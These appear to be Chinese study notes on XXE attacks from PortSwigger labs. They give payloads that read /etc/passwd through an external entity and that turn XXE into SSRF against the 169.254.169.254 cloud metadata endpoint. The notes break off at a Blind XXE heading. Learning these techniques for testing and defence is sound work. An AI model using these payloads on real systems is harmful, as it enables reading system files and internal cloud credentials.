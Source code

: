 [TOC]



# 一、知识点

## 一、PortSwigger

### 1. 上传XML点 | file

不需要bp抓包，就能发现XML上传点，然后上传，外部实体（SYSTEM），并且使用file伪协议进行敏感文件读取。

```
<!-- 定义恶意实体读取/etc/passwd -->
<!DOCTYPE foo [  
  <!ENTITY xxe SYSTEM "file:///etc/passwd">  
]>
<data>&xxe;</data>
```

### 2. XXE -> SSRF | HTTP

#### 一、为什么1的不算SSRF

1. SSRF 的核心是：**绕过网络边界**，去请求 **外部或内网资源**；
2. `file://` 协议不走网络栈，它直接访问本地文件系统；
3. 用 `file://` 就完全脱离了这个核心，实战中用处非常有限。

#### 二、案例

✅ 第一步：确认存在 XXE 漏洞

抓包时观察接口参数包含 XML 内容，例如：

```
<test>
  <item>123</item>
</test>
```

尝试注入恶意实体：

```
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE test [
  <!ENTITY xxe SYSTEM "http://169.254.169.254/">
]>
<test>
  <item>&xxe;</item>
</test>
```

> 如果服务端回显了内容（如 `latest`），说明 XXE 成功，并且服务端成功访问了目标地址（说明 SSRF 成立）。

### 3. HTTP | Blind XXE
